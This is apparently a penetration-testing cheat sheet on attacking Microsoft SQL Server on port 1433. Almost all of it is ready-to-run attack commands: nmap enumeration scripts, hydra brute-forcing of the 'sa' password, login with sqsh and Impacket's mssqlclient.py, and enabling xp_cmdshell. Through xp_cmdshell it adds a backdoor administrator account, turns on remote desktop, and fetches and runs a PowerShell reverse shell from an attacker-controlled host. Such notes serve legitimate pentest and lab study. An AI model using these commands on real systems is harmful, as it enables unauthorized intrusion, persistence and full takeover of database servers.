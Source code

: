 # MSSQL - Microsoft SQL Server - 1433

## MSSQL Information

## Automated Enumeration

Nmap has a few scripts that we can use to enumerate MSSQL:

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Bruteforce

Quick brutetroce for pass “SA” password

```
hydra -l sa -P password.txt -V $ip mssql
```

## Authentication

Connect to MSSQL Server:

```
sqsh -S server_address -U sa -P password
```

### sqsh <a href="#sqsh" id="sqsh"></a>

Connect to MSSQL with valid credentials:

```
sqsh -S <ip> -U username -P password
```

### mssqlclient.py <a href="#mssqlclientpy" id="mssqlclientpy"></a>

Authenticate to MSSQL with Windows Authentication:

```
mssqlclient.py mssql-svc@<ip> -windows-auth
mssqlclient.py -port 1435 sa:P@$$Word@<IP>
```

## Execute Shell Commands

Enable xp\_cmdshell:

```
exec sp_configure 'show advanced options', 1;
go
reconfigure;
go
exec sp_configure 'xp_cmdshell', 1;
go
reconfigure;
go
```

Execute System Command:

```
xp_cmdshell 'net user byte bytepass /add';
go
xp_cmdshell 'net localgroup Administrators byte /add';
go
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f';
go
```

## Reverse Shell

```
xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://$IP/shell.ps1") | powershell -noprofile'
```

`mssqlclient.py` from **Impacket**

```bash
mssqlclient.py $DOMAIN/$USERNAME:$PASSWORD@$IP
```

Reverse shell (PowerShell example):

```
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://$IP/shell.ps1") | powershell -noprofile'
```
